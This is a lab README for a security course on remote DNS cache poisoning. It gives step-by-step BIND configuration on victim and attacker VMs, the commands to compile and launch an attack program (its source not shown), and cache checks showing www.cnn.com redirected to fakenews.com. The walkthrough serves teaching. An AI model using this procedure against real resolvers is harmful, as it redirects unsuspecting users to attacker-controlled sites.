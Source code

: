 ## Remote DNS Cache Poisoning Attack

### Requirement

In this lab, you will poison the cache of a local DNS server, and thus affect clients who rely on this DNS server. More specifically, we want clients who access www.cnn.com go to fakenews.com.

### Setup

3 Linux VMs: victim (DNS) client, victim (DNS) server, attacker. All 3 VMs are located in the same network - however, we are not allowed to exploit this fact for the attacks, in other words, the attacker in this lab is not allowed to use wireshark to sniff any packets, or use the *netwox* command to inject forged DNS responses. After all, this lab is trying to demonstrate how attackers from a remote network can still perform DNS cache poisoning.

The following is the IP addresses for the VMs used in this README.

| VM  |  IP Address   |              Role                     |
|-----|---------------|---------------------------------------|
| VM1 | 172.16.77.128 |   victim DNS client                   |
| VM2 | 172.16.77.129 |   victim DNS server                   |
| VM3 | 172.16.77.130 |   attacker, attacker's DNS server     |

### Special Notes

1. in this lab, you need to copy several files from this github repository into either your victim DNS server VM, or into your attacker VM, thus it is more convenient if you just clone this repository on your victim DNS server VM, and also clone this same repository on your attacker VM.

2. many of the commands in this lab require *sudo*.

### Steps

1. on victim DNS client, configure DNS server information, i.e., let the client know the IP address of the victim DNS server.

1.1. add this line to the end of file /etc/resolvconf/resolv.conf.d/head (remember to replace DNS_SERVER_IP with your victim DNS server's IP address, plus, you need "sudo" if you edit the file using vi/vim.)

```console
nameserver DNS_SERVER_IP
```

this screenshot shows editing the file in *vi*:
![alt text](lab-remote-dns-edit-file.png "edit the file")

this screenshot shows the file is now edited:
![alt text](lab-remote-dns-configure-dns.png "configure dns")

1.2. run the following command so the above change will take effect:

```console
[05/29/22]seed@VM:~$ sudo resolvconf -u
```

![alt text](lab-remote-dns-resolvconf.png "resolvconf command")

2. setting up the local DNS server.

2.1. add the following into /etc/bind/named.conf (so that it forwards all requests for the attacker32.com domain to the malicious DNS server).

```console
zone "attacker32.com" {
    type forward;
    forwarders {
        172.16.77.130; // replace 172.16.77.130 with your attacker VM's IP address, do not remove the ";".
    };
};
```

**Explanation**: the added lines are saying, for DNS inquiries regarding this attacker32.com domain, please forward the inquiries to 172.16.77.130. we do this so that we don't need to actually purchase the domain attacker32.com.

2.2. copy named.conf.options into the /etc/bind/ directory, and also copy named.conf.default-zones into the /etc/bind/ directory.

```console
[05/29/22]seed@VM:~/.../remotedns$ sudo cp named.conf.options /etc/bind/
[05/29/22]seed@VM:~/.../remotedns$ sudo cp named.conf.default-zones /etc/bind/
```

**Explanation**: these two files will overwrite the default files, and with these two files, now the victim DNS server is configured to forward all DNS requests to 1.2.3.4, which does not provide DNS services, and then later on the attacker will impersonate 1.2.3.4 to send forged responses to the victim DNS server.

2.3. restart DNS server so the above changes will take effect:

```console
[05/29/22]seed@VM:~/.../remotedns$ sudo service bind9 restart
```

**Warning**: in your report, don't claim that the attack presented in this lab is not realistic because we need to make these changes on the victim DNS server. Such changes are unnecessary in a real life attacking scenario. The lab is designed in such a way, just to save you - the student, some money - so you don't need to purchase a domain, and to save you - the student, some time, we hardcoded 1.2.3.4 in the configuration file of the victim DNS server and also in the attacking program, otherwise you will need to manually to find out the IP address of authoritative name server for cnn.com.

3. setting up the attacker DNS server.

3.1. copy attacker32.com.zone and cnn.com.zone into the /etc/bind/ directory.

```console
[05/29/22]seed@VM:~/.../remotedns$ sudo cp attacker32.com.zone /etc/bind/
[05/29/22]seed@VM:~/.../remotedns$ sudo cp cnn.com.zone /etc/bind/
```

3.2. add the following into /etc/bind/named.conf (so that the above two configuration files will be used):

```console
zone "attacker32.com" {
    type master;
    file "/etc/bind/attacker32.com.zone";
};

zone "cnn.com" {
    type master;
    file "/etc/bind/cnn.com.zone";
};
```

3.3. restart attacker's DNS server so the above changes will take effect:

```console
[05/29/22]seed@VM:~/.../remotedns$ sudo service bind9 restart
```

4. on victim DNS client, send a query.

```console
[05/29/22]seed@VM:~$ dig www.cnn.com 
```

```console
[05/29/22]seed@VM:~$ dig @ns.attacker32.com www.cnn.com
```

the first *dig* command should show you the legitimate mapping: 

![alt text](lab-remote-dns-dig-before-attack.png "dig cnn, before attack")

whereas the second *dig* command should show you that www.cnn.com is mapped to 188.126.71.216, which as of 05/29/2022, is the IP address of fakenews.com:

![alt text](lab-remote-dns-dig-attacker-p1.png "dig cnn from attacker, before attack")

the goal of this attack is, when the victim DNS client runs either of the above two commands, the victim DNS client will get the same result, i.e., www.cnn.com is mapped to the IP address of fakenews.com.

5. right before we start the attack, let's clear the victim DNS server's cache. on the victim DNS server, run:

```console
[05/29/22]seed@VM:~/.../remotedns$ sudo rndc flush
```

6. launch the attack: on the attacker's VM,

```console
[05/29/22]seed@VM:~/.../remotedns$ gcc -o attack attack.c
[05/29/22]seed@VM:~/.../remotedns$ sudo ./attack 172.16.77.130 172.16.77.129
```

**Note**: replace 172.16.77.130 with your attacker VM's IP address, replace 172.16.77.129 with your victim DNS server VM's IP address.

7. the attack may take a couple of minutes. on victim DNS server VM, we can check the cache to verify if the cache is poisoned or not.

```console
[05/29/22]seed@VM:~$ sudo rndc dumpdb -cache
[05/29/22]seed@VM:~$ cat /var/cache/bind/dump.db | grep attacker
ns.attacker32.com.	9992	\-AAAA	;-$NXRRSET
; attacker32.com. SOA ns.attacker32.com. admin.attacker32.com. 2008111001 28800 7200 2419200 86400
cnn.com.		65529	NS	ns.attacker32.com.
; ns.attacker32.com [v4 TTL 1792] [v6 TTL 9992] [v4 success] [v6 nxrrset]
```

as long as we see this NS record which associates cnn.com. to ns.attacker32.com., then we know the cache is now poisoned.

8. we can then verify the result from the victim DNS client. on the victim DNS client VM, we just need to send a query.

```console
[05/29/22]seed@VM:~$ dig www.cnn.com 
```

```console
[05/29/22]seed@VM:~$ dig @ns.attacker32.com www.cnn.com
```

if the attack is successful, then these two commands should now show the same result, which is www.cnn.com is mapped to 188.126.71.216, which as of 05/29/2022, is the IP address of fakenews.com.

the following screenshots show that the attack is successful:
![alt text](lab-remote-dns-dig-default-p1.png "dig cnn")
![alt text](lab-remote-dns-dig-default-p2.png "dig cnn")
![alt text](lab-remote-dns-dig-attacker-p1.png "dig cnn from attacker")
![alt text](lab-remote-dns-dig-attacker-p2.png "dig cnn from attacker")

9. you are recommended to remove the line you added on the victim DNS client VM in step 1, in this file: /etc/resolvconf/resolv.conf.d/head, so that your future experiments won't be affected.

10. you are also recommended to restore the two files on the victim DNS server VM:

```console
[05/29/22]seed@VM:~/.../remotedns$ sudo cp named.conf.options.orig /etc/bind/
[05/29/22]seed@VM:~/.../remotedns$ sudo cp named.conf.default-zones.orig /etc/bind/
```
